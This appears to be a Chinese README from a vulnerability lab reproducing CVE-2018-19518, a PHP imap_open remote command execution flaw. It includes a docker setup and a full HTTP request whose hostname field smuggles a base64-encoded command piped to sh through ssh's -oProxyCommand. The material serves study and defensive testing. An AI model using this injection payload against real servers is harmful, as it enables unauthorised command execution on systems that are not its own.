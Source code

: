 # PHP imap 远程命令执行漏洞（CVE-2018-19518）

php imap扩展用于在PHP中执行邮件收发操作。其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

参考链接：

- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681
- https://nvd.nist.gov/vuln/detail/CVE-2018-19518

## 漏洞环境

执行如下命令启动一个包含漏洞的PHP环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看web页面。Web功能是测试一个邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

目标源码在[index.php](www/index.php)

## 漏洞复现

发送如下数据包即可成功执行命令`echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

执行`docker compose exec web bash`进入容器，可见`/tmp/test0001`已成功创建：

![](1.png)
